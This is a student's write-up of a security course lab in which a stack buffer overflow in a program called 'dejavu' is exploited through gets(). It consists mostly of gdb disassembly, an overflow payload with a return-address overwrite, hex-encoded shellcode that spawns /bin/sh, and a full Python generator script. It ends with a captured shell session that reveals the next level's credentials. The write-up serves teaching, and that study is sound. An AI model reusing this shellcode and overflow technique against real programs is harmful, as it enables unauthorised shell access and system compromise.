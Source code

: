 ## 1

The makefile is interesting and I think the professor tried his best to
make the program unsafe.
Just run gdb and see what happens:

```
invoke -d dejavu
break deja_vu
run
x/24i $pc
#- ---------------
=> 0xb7ffc4ab <deja_vu+6>:	sub    $0xc,%esp
   0xb7ffc4ae <deja_vu+9>:	lea    -0x10(%ebp),%eax
   0xb7ffc4b1 <deja_vu+12>:	push   %eax
   0xb7ffc4b2 <deja_vu+13>:	call   0xb7ffc75e <gets>
   0xb7ffc4b7 <deja_vu+18>:	add    $0x10,%esp
   0xb7ffc4ba <deja_vu+21>:	nop
   0xb7ffc4bb <deja_vu+22>:	leave  
   0xb7ffc4bc <deja_vu+23>:	ret    
   0xb7ffc4bd <main>:	lea    0x4(%esp),%ecx
   0xb7ffc4c1 <main+4>:	and    $0xfffffff0,%esp
   0xb7ffc4c4 <main+7>:	pushl  -0x4(%ecx)
   0xb7ffc4c7 <main+10>:	push   %ebp
   0xb7ffc4c8 <main+11>:	mov    %esp,%ebp
   0xb7ffc4ca <main+13>:	push   %ecx
   0xb7ffc4cb <main+14>:	sub    $0x4,%esp
   0xb7ffc4ce <main+17>:	call   0xb7ffc4a5 <deja_vu>
   0xb7ffc4d3 <main+22>:	mov    $0x0,%eax
   0xb7ffc4d8 <main+27>:	add    $0x4,%esp
   0xb7ffc4db <main+30>:	pop    %ecx
   0xb7ffc4dc <main+31>:	pop    %ebp
   0xb7ffc4dd <main+32>:	lea    -0x4(%ecx),%esp
   0xb7ffc4e0 <main+35>:	ret    
   0xb7ffc4e1 <dummy>:	ret    
   0xb7ffc4e2 <dummy1>:	ret    
```

Then we go to the call instruction.

```
break *0xb7ffc4b2
c
```

I saw that eax is 0xbffffab8. The return address should original be 0xb7ffc4d3 (in main), and I can easily find it at 0xbffffacc. So I should put payload at 0xbffffad0 and input `0123456789abcdef0123456789abcdef01234567 + bffffa40 + payload`, where paylaod is `6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a`. After fixing byte sequence problem with python, the input.txt is ready.

Now I can see 
```
pwnable:~$ ./exploit 
dumb-shell $ id
uid=1002(smith) gid=1001(vsftpd) groups=1001(vsftpd)
dumb-shell $ cat README
You have to let it all go. Fear, doubt, and disbelief. Free your mind.

Next username: smith
Next password: 37ZFBrAPm8
```

My code is attached below
```
############# egg3
#!/usr/bin/python3

def fuck8(txt):
    assert(len(txt) == 8)
    return txt[6:8] + txt[4:6] + txt[2:4] + txt[0:2]

def revert(txt):
    assert(len(txt) % 8 == 0)
    res = ""
    for i in range(int(len(txt) / 8)):
        res += fuck8(txt[i*8:(i+1)*8])
    return res


fill = "0123456789abcdef0123456789abcdef01234567"
#cs161-ace# raddr = "bffffa40"
#cs161-atw# raddr = "bffffad0"
raddr = "bffffad0"
#shellcode = "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
shellcode = "6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a"
########################################################################################### <- append an endline (0x0a, \n)

payload = revert(fill) + revert(raddr) + (shellcode)
print(payload)

import binascii

b = binascii.unhexlify(payload)
with open('input.txt','wb+') as f:
    f.write(b)
############# egg
#!/bin/bash

./egg3 > /dev/null
cat input.txt # | invoke dejavu
```

## 2
